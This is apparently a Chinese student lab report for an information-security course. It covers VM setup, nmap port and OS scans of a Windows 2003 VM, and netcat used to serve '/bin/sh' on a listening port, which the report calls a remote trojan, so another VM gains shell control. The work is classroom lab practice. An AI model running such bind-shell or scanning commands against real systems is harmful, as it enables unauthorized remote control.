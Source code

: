 ## 实验一：网络安全基础实验  

### 1. 实验目的

1. 使用 VirtualBox 虚拟机建立网络信息安全实验环境；  
2. 配置虚拟网卡，虚拟机使用多个虚拟网卡进行通信；  
3. 安装及配置新的虚拟机；  
4. 使用已经安装好的虚拟机；  
5. 在 Windows 和 Linux 虚拟机上运行常用的信息安全相关的命令行程序，用 CSocket 编写 C 语言程序实现两台计算机之间的网络通信；  、
6. 用网络侦察工具探测远程主机的安全漏洞等信息；  
7. 用经典的网络安全工具 netcat 在本机开启一个监听端口，实现远程木马的功能。  



### 2. 实验内容

1. 选择一种较新的 Windows 版本 VirtualBox,安装 VirtualBox 虚拟机。  
2. 配置多个虚拟网卡，在一台主机上模拟多个网络交换机，实现多个子网的互联。  
3. 安装和配置新的 ubuntu Linux。  
4. 配置和使用已安装好的虚拟机，设置虚拟机操作系统的 IP 地址，使用 Ping 命令测试其能否与主机(或其它虚拟机)进行网络通信。  
5. 在虚拟机上运行常用的命令行程序。  



### 3. 实验步骤

#### 3.1 配置实验环境

##### 3.1.1 安装 VirtualBox 虚拟机  

​		按照实验指导文档的步骤下载并安装VirtualBox。如图所示，能正确运行 virtualbox 管理器，说明virtualbox 安装完毕。  

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-21-13.jpg" style="zoom:50%;" />

##### 3.1.2 配置多个虚拟网卡  模拟多个网络  

​		按照实验指导文档的步骤，在主机网络管理器中配置多个虚拟网卡。配置结构如图所示。

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-23-33.jpg" style="zoom:50%;" />

##### 3.1.3 安装和配置新的虚拟机系统  

​		按照实验指导文档的步骤，下载32 位 Ubuntu 16 的desktop 版本的安装盘映像文件，按提示的步骤，新建一个 32 位的 ubuntu 虚拟机。安装完成之后可以根据实验的需要配置虚拟网卡、虚拟机的 IP 地址或安装某些必须的软件。  

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-25-44.jpg" style="zoom:50%;" />

##### 3.1.4 导入和导出安装好的虚拟机 

按照实验指导文档的步骤，下载带 C 编译器的 Windows2003 虚拟机压缩文件， 解压后注册。

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-27-04.jpg" style="zoom:50%;" />

##### 3.1.5 在虚拟机上运行常用的命令行程序

​		在 ubuntu Linux 和 Windows 2003 虚拟机下运行常用的命令行程序，比如： chmod, chown, ls, mkdir, cp, rm, ifconfig； dir, md, copy, net, ipconfig, netstat。  



#### 3.2 Nmap工具的使用

##### 3.2.1 实验要求

​		用 ubuntu 虚拟机中的网络侦察工具 nmap（如果没有，安装一个）查看已下载的Windows 2003 虚拟机中开放了哪些网络端口， 用 nmap 探测 Windows 2003 虚拟机的操作系统类型。

##### 3.2.2 实验过程

* 在ubuntu虚拟机上安装nmap工具。使用如下命令行完成nmap的安装。

  ```
  sudo apt-get install nmap
  ```

  使用如下命令行验证安装成功

  ```
  nmap --version
  ```

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-32-15.jpg" style="zoom:80%;" />

* 在Windows虚拟机上输入`win+R`进入命令行，输入`ipconfig`查询本机ip地址是`114.214.223.141`

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-33-45.jpg" style="zoom:80%;" />

* 在Ubuntu虚拟机终端上输入

  ```
  nmap 114.214.223.141
  ```

  查看Windows 2003 虚拟机中开放了哪些网络端口，结果如图所示。

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-35-55.jpg" style="zoom:80%;" />

* 在Ubuntu虚拟机终端上输入

  ```
  sudo nmap -O 114.214.223.141
  ```

  探测 Windows 2003 虚拟机的操作系统类型，结果如图所示。

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-37-52.jpg" style="zoom:80%;" />

#### 3.3 Netcat工具的使用

##### 3.3.1 实验内容

在 ubuntu 虚拟机中用经典的网络安全工具 netcat 在本机开启一个监听端口，实现远程木马的功能。

##### 3.3.2 实验内容

* 在ubuntu虚拟机终端中输入`ifconfig`以查询ubuntu虚拟机的ip地址，得到其ip地址为`114.214.225.235`

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_16-51-35.jpg" style="zoom:80%;" />

* 在ubuntu虚拟机上安装netcat工具。使用如下命令行完成netcat的安装

  ```
  sudo apt-get -y install netcat-traditional
  ```

  使用如下命令行验证安装成功

  ```
  nc -v
  ```

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-25_23-49-00.jpg" style="zoom:80%;" />

* 在ubuntu终端中输入命令行

  ```
  sudo update-alternatives --config nc
  ```

  切换至netcat-traditional

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_16-47-34.jpg" style="zoom:80%;" />

* 在ubuntu终端中输入命令，以开启监听端口`2333`。在本次实验中ubuntu是被控制的终端，Windows2003是远程控制终端。

  ```
  nc -l -p 2333 -e /bin/sh
  ```
  
* 在Windows2003的终端中输入命令，以建立与ubuntu相应端口的联系。

  ```
  nc 114.214.225.235 2333
  ```

  此时，Windows2003主机已经获得ubuntu主机的终端控制权，可以实现远程控制

  ![](F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_16-57-38.jpg)

* 在Windows2003的终端中输入命令进行验证

  ```
  cd ..
  cd ..
  dir
  ```

  列出根目录中的所有文件

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_18-53-30.jpg" style="zoom:80%;" />

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_18-53-18.jpg" style="zoom: 67%;" />
  
  输入

  ```
  sudo mkdir test
  ```

  可以在ubuntu主机上检查到创建了`test`文件夹
  
  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_18-55-48.jpg" style="zoom:80%;" />

  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_18-55-40.jpg" style="zoom:67%;" />
  
  输入
  
  ```
  sudo rmdir test
  ```
  
  可以在ubuntu主机上检查到`test`文件夹被成功删除
  
  <img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab1\Images\Snipaste_2022-02-26_18-56-49.jpg" style="zoom:80%;" />

